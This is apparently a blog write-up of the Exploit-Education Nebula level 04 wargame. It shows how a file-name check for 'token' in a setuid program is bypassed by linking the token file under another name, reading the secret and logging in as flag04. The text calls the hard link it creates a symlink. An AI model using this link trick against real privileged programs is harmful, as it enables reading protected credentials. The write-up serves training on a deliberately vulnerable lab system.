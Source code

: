 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 04"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 4](https://exploit.education/nebula/level-04/)

## Challenge
This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it 
To do this level, log in as the `level04` account with the password `level04`. Files for this level can be found in /home/flag04.
## Vulnerabilty
The program looks for the string `token` in the file name. 
``` cpp
if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
```
We can beat this check by creating a [symlink](https://www.cyberciti.biz/faq/creating-soft-link-or-symbolic-link/) to the file token using a file name that does not have `token` in it
``` bash
level04@nebula:~$ ln /home/flag04/token /home/level04/flag
level04@nebula:~$ ls
flag  flag04  token
```
Symlink created. lets run the program now.
``` bash
level04@nebula:~$ cd /home/flag04
level04@nebula:/home/flag04$ ./flag04 /home/level04/flag
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su - flag04
Password:
flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
flag04@nebula:~$
```
### Solved!